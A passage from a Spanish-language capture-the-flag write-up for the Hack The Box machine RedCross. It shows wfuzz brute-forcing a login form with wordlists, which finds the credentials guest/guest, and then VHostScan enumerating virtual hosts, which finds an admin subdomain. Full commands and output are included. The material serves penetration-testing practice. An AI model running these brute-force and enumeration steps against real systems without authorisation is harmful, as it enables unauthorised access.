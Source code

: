 - `-c` para agregar colores a la salida
- `--hh 11` para indicarle que mensajes ocultar, basado en la longitud de 11 caracteres
- `-z file,usernames` para la lista de posibles usuarios
- `-z file,passwords` para la lista de posibles contraseñas
- `-d user=FUZZ&pass=FUZ2Z&submit=Login&action=login` para el data del form donde insertamos los valores del diccionario.

Como podemos ver después de un par de intentos (39), el servidor empieza a rechazar las conexiones.

Reduciendo la prueba a valores idénticos (mismo nombre y contraseña), logre adivinar una cuenta para acceder:

``` text
xbytemx@laptop:~/htb/redcross$ wfuzz -c --hh 11 -z file,/home/xbytemx/git/SecLists/Usernames/top-usernames-shortlist.txt -d 'user=FUZZ&pass=FUZZ&submit=Login&action=login' https://intra.redcross.htb/pages/actions.php

Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.

********************************************************
* Wfuzz 2.3.4 - The Web Fuzzer                         *
********************************************************

Target: https://intra.redcross.htb/pages/actions.php
Total requests: 17

==================================================================
ID   Response   Lines      Word         Chars          Payload
==================================================================

000004:  C=200      0 L	       3 W	     32 Ch	  "guest"

Total time: 1.621467
Processed Requests: 17
Filtered Requests: 16
Requests/sec.: 10.48433
```

> creds: guest / guest

Ya tenemos unas credenciales validas para intra.redcross.htb.

# Searching for anothers subdomains

Como recodaremos, al realizar una petición directamente al servidor, nos mando hacia intra, pero ¿y si existen mas vhosts?

Probemos con vhostscan:

``` text
(VHostScan-loWTcTIQ) xbytemx@laptop:~/git/VHostScan$ VHostScan -t intra.redcross.htb -b redcross.htb -p 443 --ssl
+-+-+-+-+-+-+-+-+-+  v. 1.21
|V|H|o|s|t|S|c|a|n|  Developed by @codingo_ & @__timk
+-+-+-+-+-+-+-+-+-+  https://github.com/codingo/VHostScan

[+] Starting virtual host scan for intra.redcross.htb using port 443 and wordlists: /home/xbytemx/.cache/Python-Eggs/VHostScan-1.21-py2.7.egg-tmp/VHostScan/wordlists/virtual-host-scanning.txt
[>] SSL flag set, sending all results over HTTPS.
[>] Ignoring HTTP codes: 404
[+] Resolving DNS for additional wordlist entries
[!] Couldn't find any records (NXDOMAIN)
[#] Found: admin.redcross.htb (code: 200, length: 401, hash: d4c1c1cfc88ca212c152ad914a94d6ca3bcc9565d93ea934a3d999ed887a64c3)
  Date: Mon, 18 Mar 2019 01:40:58 GMT
  Server: Apache/2.4.25 (Debian)
```